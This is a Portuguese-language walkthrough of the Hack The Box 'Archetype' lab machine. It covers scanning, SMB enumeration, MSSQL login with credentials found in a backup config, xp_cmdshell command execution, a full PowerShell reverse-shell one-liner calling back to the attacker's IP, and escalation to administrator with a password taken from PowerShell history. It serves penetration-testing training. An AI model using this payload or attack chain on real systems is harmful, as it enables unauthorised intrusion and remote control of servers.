 ```yaml
---
title: HTB Archetype Writeup
author: Hastur
date: 2021-09-05 21:00:00 -0300
categories: [Writeups, Hack The Box]
tags: [HTB, Starting point, Windows, Very Easy, MSSQL]
image: /htb/htb-archetype-logo.png
alt: "HTB Archetype Writeup"
---
```


<img src="/htb/htb-archetype-logo.png">

<br>


| Nome | Archetype       |
|------|-------------|
|IP    | 10.10.10.27|
|Pontos| 0          |
|OS    | Windows    |
|Nível | Very Easy  |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ sudo nmap -v -p- -sCV -O -Pn 10.10.10.27 --min-rate=512
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-09-05T19:35:06
| Not valid after:  2051-09-05T19:35:06
| MD5:   0f97 d62c 8d46 e595 8b83 982b eb14 769f
|_SHA-1: 795d c811 74ec cd90 80e3 27d6 bb77 796c a2f0 d9d4
|_ssl-date: 2021-09-05T19:47:03+00:00; -35m18s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 48m42s, deviation: 3h07m52s, median: -35m18s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-05T12:46:55-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-05T19:46:54
|_  start_date: N/A


```
Encontramos várias portas abertas nesta máqina, vamo começar pela `445 - SMB`.

### SMB

Vamos tentar uma conex]ao sem credenciais para verificar null session no SMB.

<img src="/htb/htb-archetype-1.png">

Temos acesso a algubs compartilhamentos, em expecial `backups`, vamos enumerá-lo.

<img src="/htb/htb-archetype-2.png">

Encontramos o arquivo, `prod.dtsConfig`, após baixarmos, e analizarmos, encontramos algumas informaçõs valiosas.

<img src="/htb/htb-archetype-3.png">

Ecnontramos as credenciais para um MSSQL: `ARCHETYPE\sql_svc:M3g4c0rp123`.

Em posse das credenciais, podemos tentar uma conex]ao remota utilizando o `mssqlclient.py`.

<img src="/htb/htb-archetype-4.png">

Conseguimos um acesso ao MSSQL, ótimo!

Podemos utilizar a função `IS_SRVROLEMEMBER`, para verificar se o usuário `sql_svc` tem privilégios administrativos.

<img src="/htb/htb-archetype-5.png">

O MSSQL retornou `1`, o que significa que temos privilégios administrativos.

Agora precisamos de uma forma de conseguir a leak de algum arquivo, ou melhor, um shell.

Existe uma funsão do MSSQL que permite executar comandos via query, podemos encontrar na pŕopria documentação da Microsoft [aqui](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

Vamos seguir os passos da documentação e testar algum comando.

<img src="/htb/htb-archetype-6.png">

Ótimo, conseguimos um RCE através do MSSQL, agora podemos tentar um reverse shell através de comandos no PowerSHell.

Primeiro vamos criar um payload de uma linha em power shell e salvá-lo no arquivo `shell.ps1`.

```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.251",8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Agora vamos iniciar um server http com python `python3 -m http.server 80`.

<img src="/htb/htb-archetype-7.png">

Agora setamos um `netcat` na porta 8443 que setamos em nosso payload.

<img src="/htb/htb-archetype-8.png">

Com tudo pronto, podemos enviar um payload em Power Shell no MSSQL, que vai fazer o download do script em nosso HTTP server e em seguida executá-lo, nos dando um reverse shell no netcat que abrimos.

<img src="/htb/htb-archetype-9.png">

Se olharmos em nosso servidor HTTP, podemos ver que houve uma requisição vinda da Archetype.

<img src="/htb/htb-archetype-10.png">

E em nosso netcat, temos nosso reverse shell!!!

<img src="/htb/htb-archetype-11.png">

Ótimo, estamos dentro do host da Archetype, dentro do Desktop do usuário `sql_svc`, encontramos a flag do usuário.

<img src="/htb/htb-archetype-12.png">

## Escalação de privilégios

Após um bom tempo de enumeração local, decidi checar se há algum histórico do Power Shell no usuário e descobri uma informação extremamente importante.

<img src="/htb/htb-archetype-13.png">

Encontramos as credenciais do administrador: `administrator:MEGACORP_4dm1n!!`.

Em posse destas credenciais, podemos tentar um acesso remoto ao host utilizando o `psexec.py`.

<img src="/htb/htb-archetype-14.png">

E conseguimos nosso shell com privilégios administrativos no Host Archetype.

A flag do Administrator está em seu Desktop.

<img src="/htb/htb-archetype-15.png">


E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>



